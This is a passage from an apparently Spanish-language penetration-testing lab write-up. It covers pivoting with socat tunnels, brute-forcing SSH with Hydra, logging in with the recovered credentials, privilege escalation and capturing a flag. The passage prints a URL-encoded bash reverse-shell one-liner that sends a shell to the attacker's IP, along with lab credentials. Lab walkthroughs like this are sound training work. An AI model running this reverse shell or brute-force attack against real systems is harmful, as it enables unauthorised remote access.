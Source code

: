 ![Untitled](/assets/img/labECCPT/Pasted image 20240402233826.png)

Levantar tuneles `socats` para obtener la reverse shell en la maquina atacante:

- consola

```bash
bash -c "bash -i >%26 /dev/tcp/172.18.0.131/1212 0>%261"
```

![Untitled](/assets/img/labECCPT/Pasted image 20240402235824.png)

- Maquina `brainpan`

  ![Untitled](/assets/img/labECCPT/Pasted image 20240402235853.png)

  En las otras maquinas se utilizan los mismos tuneles previamente creados

- Maquina atacante en escucha a traves de `nc`

  ![Untitled](/assets/img/labECCPT/Pasted image 20240403000011.png)

### Enumeracion

![Untitled](/assets/img/labECCPT/Pasted image 20240403000101.png)

Listando un posible usuario

### Explotacion

Esta máquina tiene el puerto 22 (SSH) activo y contamos con un nombre de usuario. Además, al obtener un archivo de respaldo en `WinAdmin` que contiene lo que parecen ser contraseñas, se explorará la posibilidad de realizar un ataque de fuerza bruta utilizando Hydra.

Ataque de fuerza bruta al servicio `ssh`

![Untitled](/assets/img/labECCPT/Pasted image 20240403001303.png)

Se dispone de posibles credenciales validas:

```bash
secretserver:secretserver123
```

### Intrusion

por `ssh`

![Untitled](/assets/img/labECCPT/Pasted image 20240403001439.png)

### PrivEsc

![Untitled](/assets/img/labECCPT/Pasted image 20240403001526.png)

Explotando:

![Untitled](/assets/img/labECCPT/Pasted image 20240403001829.png)

Enumerando flag

![Untitled](/assets/img/labECCPT/Pasted image 20240403001907.png)

### Esquema Red Final

El esquema final de red quedara:

![Untitled](/assets/img/labECCPT/Pasted image 20240404180339.png)
